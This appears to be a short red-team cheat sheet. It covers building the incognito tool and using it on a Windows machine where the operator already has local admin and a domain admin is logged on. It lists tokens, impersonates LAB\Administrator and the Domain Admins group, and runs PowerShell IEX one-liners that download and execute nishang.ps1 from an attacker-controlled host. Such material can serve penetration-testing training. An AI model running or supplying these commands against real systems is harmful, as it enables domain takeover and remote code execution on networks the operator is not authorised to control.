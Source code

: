 # Building the `incognito.exe` binary
1. clone the incognito repository [here](https://github.com/FSecureLABS/incognito)
2. make sure you have **Visual Studio** installed with the **"C++ compile workload"** installed
3. open a Developer's Command Prompt from the start menu
4. go to the project folder
5. run the `nmake` command
6. you should get the `incognito.exe` binary as an output

# Scenario: you have local administrator on a machine. And a domain admin is logged on
1. list user tokens `incognito.exe list_tokens -u` or group tokens `incognito.exe list_tokens -g`
2. impersonate any of the available **user** tokens and run a PowerShell command
```shell
incognito.exe execute LAB\Administrator "powershell IEX(New-Object Net.webClient).downloadString('http://<ATTACKER_IP>/nishang.ps1')"
```
3. impersonate any of the available **group** tokens and run a PowerShell command
```shell
incognito.exe execute "LAB\Domain Admins" "powershell IEX(New-Object Net.webClient).downloadString('http://<ATTACKER_IP>/nishang.ps1')"
```